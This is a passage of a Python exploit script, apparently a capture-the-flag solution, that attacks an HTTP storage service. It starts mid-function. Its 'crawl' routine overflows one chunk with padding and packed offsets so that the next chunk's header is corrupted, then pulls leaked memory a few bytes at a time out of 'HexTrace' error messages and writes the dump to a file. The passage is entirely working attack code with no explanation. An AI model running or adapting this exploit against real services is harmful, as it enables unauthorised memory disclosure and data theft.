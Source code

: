 ```python
    resp = requests.get(server + "/get?key="+name,proxies=proxies)
    return resp.json()
def info(server=SERVER):
    return requests.get(server + "/env",proxies=proxies).json()

def calculate_crc(offset,dataFlag,dataSize,owner,encrypt,indexkey,data):
    offset = pack('q',offset)
    dataFlag = pack('b',dataFlag)
    dataSize = pack('q',dataSize)
    owner = pack('b',owner)
    encrypt = pack('b',encrypt)
    #indexkey = pack('16s', indexkey)
    _chunk = offset + dataFlag + dataSize + owner + encrypt + indexkey + data
    crc = binascii.crc32(_chunk) & 0xffff
    crc = pack('H',crc)
    _chunk = _chunk+crc
    return crc

def header(offset,dataFlag,dataSize,owner,encrypt,indexkey):
    offset = pack('q',offset)
    dataFlag = pack('b',dataFlag)
    dataSize = pack('q',dataSize)
    owner = pack('b',owner)
    encrypt = pack('b',encrypt)
    _chunk = offset + dataFlag + dataSize + owner + encrypt + indexkey
    return _chunk

def p64(sth):
    return pack('q',sth)
def from_hex(sth):
    return base64.b16decode(sth.encode() if type(sth) == str else sth)


def crawl():
    pass
    mysize = 129
    chunk_1 = add("a"*mysize,mysize)
    chunk_2 = add("b"*mysize,mysize)
    chunk_3 = add("c"*mysize,mysize)
    result = b''
    try:
        for i in range(0,5484,4):
            packed = p64(i)
            edit_file(chunk_1,b'd'*mysize + b'cr' + packed,mysize)
            data = get_free(chunk_2)
            char = data['error']['reason']
            char = char[char.find("HexTrace : ")+len("HexTrace : "):]
            char = char[:]
            char = bytes.fromhex(char)
            result = result + (char)
    finally:
        with open("all.ball","wb") as file:
            file.write(result)

crawl()
```
